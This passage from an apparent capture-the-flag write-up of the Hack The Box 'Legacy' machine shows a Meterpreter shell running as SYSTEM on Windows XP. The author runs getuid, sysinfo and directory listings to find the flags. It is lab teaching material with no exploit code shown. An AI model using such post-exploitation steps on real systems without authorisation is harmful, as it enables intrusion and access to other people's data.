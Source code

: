 ```bash
meterpreter >
```

And we have a shell! This was so easy, and is why many people consider using Metasploit as cheating! To show the active username we can run `getuid`:

```bash
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

Since we are already `SYSTEM` user, we can go ahead and claim both flags:

```bash
meterpreter > ls C:

Listing: C:
===========

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-16 06:30:44 +0100  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-16 06:30:44 +0100  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 07:07:20 +0100  Documents and Settings
100444/r--r--r--  0       fil   2017-03-16 06:30:44 +0100  IO.SYS
100444/r--r--r--  0       fil   2017-03-16 06:30:44 +0100  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 22:13:04 +0200  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 21:41:18 +0100  Program Files
040777/rwxrwxrwx  0       dir   2017-03-16 06:32:59 +0100  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 14:10:06 +0200  WINDOWS
100666/rw-rw-rw-  211     fil   2017-03-16 06:26:58 +0100  boot.ini
100444/r--r--r--  250048  fil   2008-04-14 00:01:44 +0200  ntldr
000000/---------  0       fif   1970-01-01 01:00:00 +0100  pagefile.sys
```

I'm looking for the `C:\Users` directory but it doesn't seem to be there! What? Check the operating system version:

```bash
meterpreter > sysinfo

Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
```

Windows XP! That is from before the `Users` directory was a thing! We'll find what we are looking for in `C:\Documents and Settings`:

```bash
meterpreter > ls "C:\Documents and Settings"

Listing: C:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 07:07:21 +0100  Administrator
040777/rwxrwxrwx  0     dir   2017-03-16 06:29:48 +0100  All Users
040777/rwxrwxrwx  0     dir   2017-03-16 06:33:37 +0100  Default User
040777/rwxrwxrwx  0     dir   2017-03-16 06:32:52 +0100  LocalService
040777/rwxrwxrwx  0     dir   2017-03-16 06:32:43 +0100  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-16 06:33:42 +0100  john
```
